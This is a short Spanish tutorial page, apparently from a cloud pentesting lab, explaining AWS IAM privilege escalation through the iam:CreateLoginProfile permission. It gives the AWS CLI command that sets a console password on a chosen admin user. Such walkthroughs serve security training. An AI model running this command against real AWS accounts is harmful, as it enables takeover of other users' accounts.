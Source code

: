Configurar un perfil en AWS CLI

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```
aws sts get-caller-identity --profile privesc5
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Como en el caso anterior, después de hacer enumeración y encontrar el usuario administrador o el usuario interesante a escalar y tomando en cuenta el permiso **iam:CreateLoginProfile**, se puede realizar el siguiente comando para generar una nueva contraseña:

{% code overflow="wrap" %}
```
aws iam create-login-profile --user-name <UserToHack> --password Password123! --no-password-reset-required --profile privesc5
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Si el usuario tiene doble factor de autenticación, este método de ataque no va a funcionar.
{% endhint %}
